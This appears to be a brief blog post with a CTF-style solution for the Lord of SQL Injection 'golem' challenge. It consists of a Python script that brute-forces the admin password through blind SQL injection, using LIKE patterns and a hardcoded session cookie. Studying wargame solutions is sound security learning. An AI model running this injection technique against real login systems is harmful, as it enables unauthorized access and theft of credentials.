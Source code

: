 ```yaml
---
title: "LOS 11번"
date: 2020-08-07
tag: [pwnable]
layout: post
part: WEB
---
```


{% highlight python %}
import requests

url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php"

headers={"Cookie": "PHPSESSID=5hs4v4mu95ovdpmiij918hfdrq"}
st = ""
for i in range(8):
  for j in range(48,127):
    if chr(j)=='%' or chr(j)=='_': continue
    params = {"pw":"' || id like 'admin' && binary pw like '{}%".format(st+chr(j))}
    r = requests.get(url = url, params = params, headers = headers)
    if 'Hello admin' in r.text: 
      print(chr(j))
      st+=chr(j)
      break
print(st)
{% endhighlight %}
